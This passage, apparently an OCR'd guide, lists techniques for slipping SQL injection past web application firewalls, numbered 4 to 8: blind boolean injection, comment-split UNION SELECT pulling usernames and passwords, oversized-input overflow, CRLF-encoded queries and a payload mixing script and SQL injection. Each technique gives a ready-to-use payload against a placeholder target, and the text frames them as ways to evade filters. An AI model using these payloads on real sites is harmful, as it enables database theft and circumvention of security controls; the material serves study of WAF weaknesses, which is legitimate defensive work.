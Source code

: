      The firewall might fail to reassemble `id`.

4. Blind SQL Injection

   - Idea: Use boolean/time methods that do not rely on direct error messages.

   - Example:

     ```
     http://target.com/product.php?id=1' AND (SELECT CASE WHEN (1=1) THEN 1 ELSE 0 END)=1 --
     ```

     No direct error message, but page behavior changes.

5. Signature Bypass

   - Idea: Obfuscate known injection signatures (`UNION`, `SELECT`, etc.) using comments or string manipulations.

   - Example:

     ```sql
     'UN//ION SEL//ECT user, pass FR//OM users--
     ```

     Breaks typical pattern matching in WAF filters.

6. Buffer Overflow Method

   - Idea: Overload the input buffer with excessive or malformed input, tricking the system or firewall.

   - Example:

     ```
     id=<very_long_string_of_chars>...'%20OR%20'1'='1
     ```

     If the WAF crashes or mishandles large input, it may fail to filter the payload.

7. CRLF Technique

   - Idea: Inject carriage return (`\r`) and line feed (`\n`) to alter HTTP headers or queries.

   - Example (URL-encoded):

     ```
     http://target.com/index.php?id=1%0d%0aSELECT%20*%20FROM%20users--
     ```

     This might break the parser’s expected structure.

8. Integration Method

   - Idea: Merge malicious payload with legitimate data in ways the firewall does not detect.

   - Example:

     ```
     http://target.com/search?query=<script>alert()</script>&ref=' OR 1=1--
     ```
